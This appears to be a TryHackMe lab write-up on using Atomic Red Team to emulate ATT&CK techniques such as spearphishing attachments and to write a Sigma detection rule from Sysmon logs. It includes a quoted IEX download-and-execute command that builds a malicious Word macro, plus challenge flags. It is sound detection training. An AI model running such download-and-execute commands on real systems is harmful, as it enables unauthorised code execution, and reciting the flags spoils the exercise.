



# Day 4 - Atomic Red Team

*I’m all atomic inside!*



## Detection Gaps: An Overview

### Reality of Detection Gaps

- **Detection gaps are inevitable:** No blue team can detect every attack or every step in an attack kill chain.
- **Improving detection:** Gaps can be minimized through continuous improvement and refinement.

### Reasons for Detection Gaps

1. **Dynamic Threats:**
    - The security landscape is constantly evolving as attackers find new techniques.
    - Requires updating signature and alert rules.
2. **Overlap Between Anomalous and Expected Behavior:**
    - Example: Login from an EU IP for a US-based company could be:
        - **Anomaly:** A potential malicious event.
        - **Legitimate:** CEO traveling for business.
    - Challenge: Balancing detection accuracy and minimizing noise.

## Cyber Attacks and the Kill Chain


### Unified Cyber Kill Chain

- Cyberattacks follow a structured sequence of phases.
- **Blue team goal:** Prevent attacks as early as possible in the kill chain.
    - If this is not feasible, ensure detection coverage across phases to detect attackers before the final phase.

## MITRE ATT&CK Framework



### Overview

- A framework of **Tactics, Techniques, and Procedures (TTPs)** used by threat actors.
- Provides insights into various attack techniques.
- Includes a navigator tool for investigating TTPs.

### Limitations

- Framework is largely theoretical and doesn’t guide how to test or mitigate specific gaps.

## Atomic Red Team Library

### Key Features

- A library of red team test cases aligned with the MITRE ATT&CK framework.
- **Purpose:** Test detection gaps and support blue teams in addressing them.
- **Execution:**
    - Can be automated or manually performed.

### PowerShell Command: Viewing Atomic Help

To view help for the `Invoke-AtomicTest` command:

```powershell
PS C:\Users\Administrator> Get-Help Invoke-Atomictest
NAME
    Invoke-AtomicTest

SYNTAX
    Invoke-AtomicTest [-AtomicTechnique] <string[]> [-ShowDetails] [-ShowDetailsBrief] [-TestNumbers <string[]>] 
    [-TestNames <string[]>] [-TestGuids <string[]>] [-PathToAtomicsFolder <string>] [-CheckPrereqs]
    [-PromptForInputArgs] [-GetPrereqs] [-Cleanup] [-NoExecutionLog] [-ExecutionLogPath <string>] [-Force] [-InputArgs<hashtable>] [-TimeoutSeconds <int>] [-Session <PSSession[]>] [-Interactive] [-KeepStdOutStdErrFiles]
    [-LoggingModule <string>] [-WhatIf] [-Confirm]  [<CommonParameters>]

ALIASES
    None

REMARKS
    None
```

### Parameters Overview

| Parameter | Description |
| --- | --- |
| `-AtomicTechnique` | Specifies the technique (e.g., T1566.001). |
| `-ShowDetails` | Displays detailed test info. |
| `-ShowDetailsBrief` | Displays brief test summaries. |
| `-CheckPrereqs` | Verifies prerequisites for a test. |
| `-TestNames` | Runs tests by name. |
| `-TestGuids` | Runs tests by GUID. |
| `-TestNumbers` | Runs tests by numbers. |
| `-Cleanup` | Executes cleanup commands to restore state. |

### Example Commands

- To show test details for `T1566.001`:

```powershell
Invoke-AtomicTest T1566.001 -ShowDetails

PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics

[********BEGIN TEST*******]
Technique: Phishing: Spearphishing Attachment T1566.001
Atomic Test Name: Download Macro-Enabled Phishing Attachment
Atomic Test Number: 1
Atomic Test GUID: 114ccff9-ae6d-4547-9ead-4cd69f687306
Description: This atomic test downloads a macro enabled document from the Atomic Red Team GitHub repository, simulating
an end user clicking a phishing link to download the file. The file "PhishingAttachment.xlsm" is downloaded to the %temp
% directory.

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
$url = 'http://localhost/PhishingAttachment.xlsm'
Invoke-WebRequest -Uri $url -OutFile $env:TEMP\PhishingAttachment.xlsm

Cleanup Commands:
Command:
Remove-Item $env:TEMP\PhishingAttachment.xlsm -ErrorAction Ignore
[!!!!!!!!END TEST!!!!!!!]

[********BEGIN TEST*******]
Technique: Phishing: Spearphishing Attachment T1566.001
Atomic Test Name: Word spawned a command shell and used an IP address in the command line
Atomic Test Number: 2
Atomic Test GUID: cbb6799a-425c-4f83-9194-5447a909d67f
Description: Word spawning a command prompt then running a command with an IP address in the command line is an indiciat
or of malicious activity. Upon execution, CMD will be lauchned and ping 8.8.8.8

Attack Commands:
Executor: powershell
ElevationRequired: False
Command:
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "#{ms_product}"
Command (with inputs):
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1204.002/src/Invoke-MalDoc.ps1" -UseBasicParsing)
$macrocode = "   Open `"C:\Users\Public\art.jse`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"ping 8.8.8.8`"`n"
Invoke-MalDoc -macroCode $macrocode -officeProduct "Word"

Cleanup Commands:
Command:
Remove-Item #{jse_path} -ErrorAction Ignore
Command (with inputs):
Remove-Item C:\Users\Public\art.jse -ErrorAction Ignore

Dependencies:
Description: Microsoft Word must be installed
Check Prereq Command:
try {
  New-Object -COMObject "#{ms_product}.Application" | Out-Null
  $process = "#{ms_product}"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
Check Prereq Command (with inputs):
try {
  New-Object -COMObject "Word.Application" | Out-Null
  $process = "Word"; if ( $process -eq "Word") {$process = "winword"}
  Stop-Process -Name $process
  exit 0
} catch { exit 1 }
Get Prereq Command:
Write-Host "You will need to install Microsoft #{ms_product} manually to meet this requirement"
Get Prereq Command (with inputs):
Write-Host "You will need to install Microsoft Word manually to meet this requirement"
[!!!!!!!!END TEST!!!!!!!]
```

The output above is clearly split up into multiple parts, each matching a test. Let's examine what type of information is provided in a test. We will use the test we want to run as an example.

| Key | Value | Description |
| --- | --- | --- |
| Technique | Phishing: Spearphishing Attachment T1566.001 | The full name of the MITRE ATT&CK technique that will be tested |
| Atomic Test Name | Download Macro-Enabled Phishing Attachment | A descriptive name of the type of test that will be executed |
| Atomic Test Number | 1 | A number is assigned to the test; we can use this in the command to specify which test we want to run. |
| Atomic Test GUID | 114ccff9-ae6d-4547-9ead-4cd69f687306 | A unique ID is assigned to this test; we can use this in the command to specify which test we want to run. |
| Description | This atomic test downloads a macro-enabled document from the 
Atomic Red Team GitHub repository, simulating an end-user clicking a 
phishing link to download the file. The file "PhishingAttachment.xlsm" 
is downloaded to the
        %temp% directory. | Provides a detailed explanation of what the test will do. |
| Attack commands | **Executor:** powershell 
**ElevationRequired:** False 
**Command:** $url = ‘http://localhost/PhishingAttachment.xlsm’
        Invoke-WebRequest -Uri $url -OutFile $env:TEMP.xlsm | This provides an overview of all the commands run during the 
test, including the executor of those commands and the required 
privileges. It also helps us determine where to look for artefacts in 
Windows Event Viewer. |
| Cleanup commands | Command: Remove-Item $env:TEMP.xlsm -ErrorAction Ignore | An overview of the commands executed to revert the machine back to its original state. |
| Dependencies | There are no dependencies required. | An overview of all required resources that must be present on the testing machine in order to execute the test |

To run the first test and verify prerequisites:

```powershell
Invoke-AtomicTest T1566.001 -TestNumbers 2 -CheckPrereq

PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics
          
CheckPrereq's for: T1566.001-2 Word spawned a command shell and used an IP address in the command line
Prerequisites not met: T1566.001-2 Word spawned a command shell and used an IP address in the command line
[*] Microsoft Word must be installed
          
Try installing prereq's with the -GetPrereqs switch
```

To execute the first test:

```powershell
Invoke-AtomicTest T1566.001 -TestNumbers 1

PathToAtomicsFolder = C:\Tools\AtomicRedTeam\atomics
          
Executing test: T1566.001-1 Download Macro-Enabled Phishing Attachment
Done executing test: T1566.001-1 Download Macro-Enabled Phishing Attachment
```

To clean up test artifacts:

```powershell
Invoke-AtomicTest T1566.001 -TestNumbers 1 -Cleanup
```

### Sysmon Log Analysis for Detection

1. **Clear Logs:**
    - Open Event Viewer: `Applications and Services Logs > Microsoft > Windows > Sysmon > Operational`.
    - Right-click **Operational** and select **Clear Log.**
2. **Run Test Again:**

```powershell
Invoke-AtomicTest T1566.001 -TestNumbers 1
```

1. **Analyze Logs:**
- Look for events in chronological order.
- Key events include:
    1. A `PowerShell` process running the `Invoke-WebRequest` command.
    2. File creation for `PhishingAttachment.xlsm`.

### Custom Sigma Rule for Detection

Two events contained possible indicators of compromise. Let's focus on the event that contained the `Invoke-WebRequest` command line:

`"powershell.exe" & {$url = 'http://localhost/PhishingAttachment.xlsm' Invoke-WebRequest -Uri $url -OutFile
  $env:TEMP\PhishingAttachment.xlsm}"`

We can use multiple parts of this artifact to include in our custom Sigma rule.

- `Invoke-WebRequest`: It is not common for this command to run from a script behind the scenes.
- `$url = 'http://localhost/PhishingAttachment.xlsm'`: Attackers often use a specific malicious domain to host their payloads. Including the malicious URL in the Sigma rule could help us detect that specific URL.
- `PhishingAttachment.xlsm`: This is the malicious payload downloaded and saved on our system. We can include its name in the Sigma rule as well.

A sample rule for detecting malicious PowerShell commands and file creation:

```yaml
title: Detect PowerShell Invoke-WebRequest and File Creation of PhishingAttachment.xlsm
id: 1
description: Detects the usage of Invoke-WebRequest to download PhishingAttachment.xlsm and the creation of the file PhishingAttachment.xlsm.
status: experimental
author: TryHackMe
logsource:
  category: process_creation
  product: windows
  service: sysmon
detection:
  selection_invoke_webrequest:
    EventID: 1
    CommandLine|contains:
      - 'Invoke-WebRequest'
      - 'http://localhost/PhishingAttachment.xlsm'
  selection_file_creation:
    EventID: 11  # Sysmon Event ID for File Creation
    TargetFilename|endswith: '\PhishingAttachment.xlsm'
  condition: selection_invoke_webrequest or selection_file_creation
falsepositives:
  - Legitimate administration activity using Invoke-WebRequest
  - Legitimate Excel files created with similar names
level: high
tags:
  - attack.t1071.001
  - attack.t1059.001
  - attack.t1105
  - attack.t1566.001
```

### Workflow for Emulation and Detection

1. **Prepare Resources:** Run `CheckPrereqs` to ensure dependencies are met.
2. **Execute Test:** Run the test and check output.
3. **Clear Logs:** Clean test artifacts and reset logs.
4. **Run Again:** Re-run the test for clean analysis.
5. **Analyze Logs:** Review Sysmon logs for IoCs.
    1. First, a process was created for PowerShell to execute the following command: `"powershell.exe" & {$url =
    'http://localhost/PhishingAttachment.xlsm' Invoke-WebRequest -Uri $url
    -OutFile $env:TEMP\PhishingAttachment.xlsm}`.
    2. Then, a file was created with the name PhishingAttachment.xlsm.
    
    
    
6. **Create Alerts:** Develop and deploy detection rules using tools like EDR, SIEM, or XDR.

---

## Challenge

As Glitch continues to prepare for SOC-mas and  fortifies Wareville's security, he decides to conduct an attack simulation that would mimic a ransomware attack across the environment. 
He is unsure of the correct detection metrics to implement for this test and asks you for help. Your task is to identify the correct atomic test to run that will take advantage of **a command and scripting interpreter**, conduct the test, and extract valuable artifacts that would be used to craft a detection rule.

---

## Questions

1. What was the flag found in the .txt file that is found in the same directory as the PhishingAttachment.xslm artefact?
    
    To get the txt file along with the PhishingAttachment.xslm, we must first run the T1566.001 test #1. On an admin powershell prompt, enter the following command:
    
    `Invoke-AtomicTest -AtomicTechnique T1566.001 -TestNumbers 1`
    
    
    
    Both the xslm and txt files can be found at `C:\Users\Administrator\AppData\Local\Temp`. 
    On opening the .txt file, we obtain our flag:
    
    
    
    Ans.: **THM{GlitchTestingForSpearphishing}**
    

2. What ATT&CK technique ID would be our point of interest?
    
    From the challenge prompt, we are told conduct an attack simulating a ransomware execution that makes use of the command and scripting interpreter technique. referring to the MITRE ATT&CK Matrix, we see the technique under the **Execution** tactic. The technique ID here will therefore be T1059.
    
    
    
    Ans.: **T1059**
    

3. What ATT&CK subtechnique ID focuses on the Windows Command Shell?

    
    
    

    Ans.: **T1059.003**

4. What is the name of the Atomic Test to be simulated?
    
    Now that we know the subtechnique to be used, the name of the Atomic Test can be retrieved using the following command:
    
    `Invoke-AtomicTest T1059.003 -ShowDetails`
    
    
    
    From the screenshot above, we see the test associated with BlackByte Ramsomware Print Bombing, whose test number is 4.
    

5. What is the name of the file used in the test?
    
    From the description found in the `-ShowDetails` output, we can see the name of the file being used in the test.
    
    Ans.: **Wareville-Ransomware.txt**
    

6. What is the flag found from this Atomic Test?
    
    The test can be run using the following command:
    
    `Invoke-AtomicTest T1059.003 -TestNumbers 4`
    
    After running the command, a pop up comes up on the screen along with a prompt to save a pdf file. Saving this file and opening it, we can see a note with the flag in the end.
    

    

    

    Ans.: **THM{R2xpdGNoIGlzIG5vdCB0aGUgZW5lbXk=}**
